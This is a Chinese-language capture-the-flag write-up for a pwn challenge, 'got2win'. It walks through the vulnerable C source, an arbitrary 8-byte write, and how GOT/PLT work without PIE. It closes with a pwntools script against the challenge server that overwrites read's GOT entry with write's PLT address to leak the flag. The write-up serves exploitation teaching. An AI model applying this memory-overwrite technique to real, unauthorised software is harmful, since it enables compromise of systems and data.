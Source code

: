 ```yaml
---
mainfont: "Noto Sans CJK TC"
monofont: Iosevka Fixed Extended
---
```

# got2win
題目的程式碼:  
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>

char flag[0x30];

int main()
{
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IONBF, 0);

    int fd = open("/home/chal/flag", O_RDONLY);
    read(fd, flag, 0x30);
    close(fd);
    write(1, "Good luck !\n", 13);

    unsigned long addr = 0;
    printf("Overwrite addr: ");
    scanf("%lu", &addr);
    printf("Overwrite 8 bytes value: ");
    read(0, (void *) addr, 0x8);

    printf("Give me fake flag: ");
    int nr = read(1, flag, 0x30);
    if (nr <= 0)
        exit(1);
    flag[nr - 1] = '\0';
    printf("This is your flag: ctf{%s}... Just kidding :)\n", flag);

    return 0;
}
```

## Analysis
程式做了幾件事:  
1. 開檔案，讀進buffer後關閉。  
2. 寫`"Good luck !\n"`進stdout  
3. 讓使用者輸入一個address  
4. 讓使用者複寫address的值  
5. read(1, flag, 0x30)  

<br>
可以注意到，在5. read的時候給的fd是1，也就是stdout，這是程式的一個bug，因此我們來利用他。  

## PIE
PIE(Position-Independent Executable)是能夠讓程式以相對位址來表示，這樣能夠提升程式的安全性。  

看看程式的build選項:  
`gcc -no-pie -o chal got2win.c`  
程式沒有開啟PIE，因此程式會使用絕對位址，這樣安全性就下降很多。  

## GOT PLT
GOT(Global Offset Table)與PLT(Procedure Linkage Table)是Linux底下的一個機制，  
主要用途就是處理外部function呼叫(dynamic link)。  
GOT就是儲存位址的一個表，而PLT則是放能夠resolve位址的程式。  
<br>
在這題裡面，如果能夠將GOT中read的位址複寫成write的PLT，就能夠把flag直接write到stdout了。  
<br><br>
首先使用ghidra來write的PLT的位址:  
![](imgs/plt_write_addr.png)  

再來使用pwndbg看GOT:  
![](imgs/got.png)  

read的GOT跟write的PLT都有之後，就可以來解了。  

## Solve
```python
import pwn

p = pwn.remote("edu-ctf.zoolab.org", 10004)

p.recvuntil(b"Overwrite addr: ")
p.sendline(str(0x404038).encode())

p.recvuntil(b"Overwrite 8 bytes value: ")
p.send(pwn.p64(0x4010c0))

p.recvuntil(b"Give me fake flag: ")

p.interactive()
```

## Result
執行結果:  
![](imgs/flag.png)